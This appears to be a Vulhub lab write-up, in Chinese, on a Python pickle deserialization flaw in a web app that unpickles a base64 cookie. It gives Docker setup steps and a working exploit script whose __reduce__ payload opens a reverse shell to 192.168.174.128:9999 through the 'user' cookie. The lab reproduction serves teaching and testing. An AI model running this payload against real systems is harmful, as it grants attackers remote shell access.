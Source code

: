 # Python unpickle 造成任意命令执行漏洞

## 漏洞描述

参考阅读：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

## 环境搭建

Vulhub 编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-ip:8000`，显示 `Hello {username}!`。

## 漏洞复现

username 是取 Cookie 变量 user，对其进行 base64 解码 + 反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

调用 exp.py，监听 9999 端口，反弹 shell：

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.174.128:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

![image-20220228172508273](images/202202281725409.png)
